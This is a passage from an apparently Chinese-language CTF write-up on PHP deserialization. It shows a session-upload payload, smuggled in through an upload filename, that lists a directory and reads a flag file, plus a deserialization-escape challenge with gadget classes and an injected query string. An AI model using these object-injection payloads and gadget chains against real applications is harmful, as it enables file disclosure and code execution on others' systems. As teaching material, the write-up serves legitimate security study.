 然后新建`php`页面生成序列化数据。

为防止转义，在引号前加上 \。利用前面的 html 页面随便上传一个东西，抓包把 (`filename` ) 改为如下，注意，前面有一个`|`，这是`session`的格式。

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}

```

根据现实可以查看到有`Here_1s_7he_fl4g_buT_You_Cannot_see.php`页面，再次修改 payload 之后既可以读出`flag`

```
// 将php页面中的xxxx修改为如下
print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));
最后把(filename)改为如下：
/*    |O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}     */

```

### 5. 反序列化逃逸

大家都知道，既然是程序对字符串解析，就必然有伪造的可能，反序列化也不能例外。处理反序列化逃逸的问题需要对序列化字符串的结构有一定了解。以安恒一道月赛为例。

```
username = $a;
        $this->password = $b;
    }
}
 
class B{
    public $b ;
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}
 
class C{
    public $c;
    function __toString(){
        echo file_get_contents($this->c); //flag.php
    }
}
$a = new A($_GET['a'],$_GET['b']);
// 难度1
$b = unserialize(read(write(serialize($a))));
// 难度2
$c = unserialize(write(read(serialize($a))));

```

可以看出上面题目中有`read write`两个函数，分别是两种字符串替换模式，原题中只有难度 1（减少），我增加了一个难度 2（增加）。减少的过程较好控制，可以用 双引号`"` 去填充。 增加的过程较难控制，需要增加额外属性。处理过程如下。

```
// 难度1
$c =new C();
$c->c = 'flag.php';
$b = new B();
$b->b=$c;
$a = new A('a',$b);
echo serialize($a);
/*
O:1:"A":2:{s:8:"username";s:1:"a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
 
其中 ?a=a&b=;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```
